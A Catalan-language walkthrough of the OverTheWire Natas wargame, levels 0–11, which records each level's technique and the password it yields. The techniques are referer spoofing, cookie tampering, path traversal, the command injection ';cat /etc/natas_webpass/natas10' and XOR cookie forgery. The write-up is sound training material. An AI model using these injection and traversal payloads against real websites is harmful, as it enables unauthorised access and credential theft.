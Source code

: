 # LEVEL 0

Inspeccionem l'element i podem veure un comentari en el div "content".

![Level0](img/level0.png)
```
g9D9cREhslqBKtcA2uocGHPfMZVzeFK6
```

# LEVEL 1

Al estar bloquejat el click dret fiquem 
view-source:http://natas1.natas.labs.overthewire.org/
![Level1](img/level1.png)

```
h4ubbcXrWqsTo7GGnnUMLppXbOogfBZ7
```

# LEVEL 2

Inspeccionem i veiem que carrega una imatge que té la ruta de /files. Accedim i veiem que en aquest directori hi ha un fitxer users.txt
![Level2](img/level2.png)

```
# username:password
alice:BYNdCesZqW
bob:jw2ueICLvT
charlie:G5vCxkVV3m
natas3:G6ctbMJ5Nb4cbFwhpMPSvxGHhQ7I6W8Q
eve:zo4mJWyNj2
mallory:9urtcpzBmH
```

# LEVEL 3
En el codi no trobem res, mirem el robots.txt i viem que surt /s3cr3t/ entrem en aquest directori i trobem el fitxer users.txt amb la password.
![Level3](img/level3.png)

```
tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm
```

# LEVEL 4

Modifiquem la petició amb el BurpSuite ja que ens diu que només accepta peticions del natas5, modifiquem el referer per http://natas5.natas.labs.overthewire.org/
![Level4](img/level4.png)

```
Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD
```


# LEVEL 5
Mirem la petició amb el BurpSuite, veiem que té un paràmetre que té el valor 0, li fiquem el valor 1 i ja podem entrar.
![Level5](img/level5.png)


```
Cookie: loggedin=0
```
```
fOIvE0MDtPTgRhqmmvvAOt2EfXR6uQgR
```

# LEVEL 6

Si cliquem a view source, podem veure un tros de codi php on viem un include includes/secret.inc, aquí dins hi ha una variable amb la contrasenya que hem de ficar a l'input per poder obtenir la contrasenya del Natas7.
Fallo: secret de forma gloabal

http://natas6.natas.labs.overthewire.org/includes/secret.inc

![Level6](img/level6.png)


```
<?
$secret = "FOEIUWGHFEEUHOFUOIU";
?>
```

```
jmxSiH3SP6Sonf8dv66ng8v1cIEdjXWr
```

# LEVEL 7

index.php?page= obre la pàgina, si mirem el codi veiem que el password està /etc/natas_webpass/natas8

Fallo: path traversal

![Level7](img/level7.png)

http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8

```
a6bZCNYwdKqN5cGP11ZdtPg0iImQQhAB
```
# LEVEL 8
Viem que en el codi PHP, fa un encode del $encodedSecret, ho descodifiquem i obtenim el valor que hem de ficar a l'input.


![Level8](img/level8.png)

```
<?php
function encodeSecret($secret) {
    return bin2hex(strrev(base64_encode($secret)));
}

function decode($secret){
	return base64_decode(strrev(hex2bin($secret)));
}

echo (decode("3d3d516343746d4d6d6c315669563362"));
```
```
Sda6t0vkOPkM8YeOZkAGVhFoaplvlJFd
```
# LEVEL 9
Sabent que les contrasenyes es troben al directori /etc/natas_webpass/natasX i mirant el codi podem veure que es poden executar comandes des de l'input fem un cat del fitxer.

![Level9](img/level9.png)


```
;cat /etc/natas_webpass/natas10

```
```
D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE
```

# LEVEL 10
Com que ara en el codi amb expressions regulars no podem ficar ; en l'input fem un grep de la lletra A, per casualitat la password té el caràcter A i se'ns mostra.

![Level10](img/level10.png)


```
a /etc/natas_webpass/natas11
```
```
1KFqoJXi6hRaPluAmk8ESDW4fSysRoIg
```

# LEVEL 11
Veiem que a la pàgina, les dades estan xifrades mitjançant XOR i emmagatzamades a la cookie, si aconseguim ficar el valor en YES ens mostrara la password. 

```
<?
if($data["showpassword"] == "yes") {
    print "The password for natas12 is <censored><br>";
}
?>
```

decode coockie value base64
0l;$$98-8=?#9*jvi 'ngl*+(!$#9lrnh(.*-(.n6

Cookie original amb valor NO:
**MGw7JCQ5OC04PT8jOSpqdmkgJ25nbCorKCEkIzlscm5oKC4qLSgubjY%3D**

Hem de modificar la cookie perquè tingui el valor YES.
```
<?php

$originalstring = json_encode(array( "showpassword"=>"yes", "bgcolor"=>"#ffffff"));

function xor_encrypt($in) {
    $key = 'KNHL';
    $text = $in;
    $outText = '';

    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
}

echo(base64_encode(xor_encrypt($originalstring))); 

?>
```
Cookie original amb valor YES:
**MGw7JCQ5OC04PT8jOSpqdmk3LT9pYmouLC0nICQ8anZpbS4qLSguKmkz**

Modifiquem la petició amb el BurpSuite per modificar el valor de la Cookie:

```
GET /?bgcolor=%23ffffff HTTP/1.1
Host: natas11.natas.labs.overthewire.org
Authorization: Basic bmF0YXMxMToxS0Zxb0pYaTZoUmFQbHVBbWs4RVNEVzRmU3lzUm9JZw==
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://natas11.natas.labs.overthewire.org/?bgcolor=%23ffffff
Accept-Encoding: gzip, deflate
Accept-Language: es-ES,es;q=0.9
Cookie: data=MGw7JCQ5OC04PT8jOSpqdmk3LT9pYmouLC0nICQ8anZpbS4qLSguKmkz
Connection: close
```

![Level11](img/level11.png)

Clau:
```
YWqo0pjpcXzSIl5NMAVxg12QxeC1w9QG

```


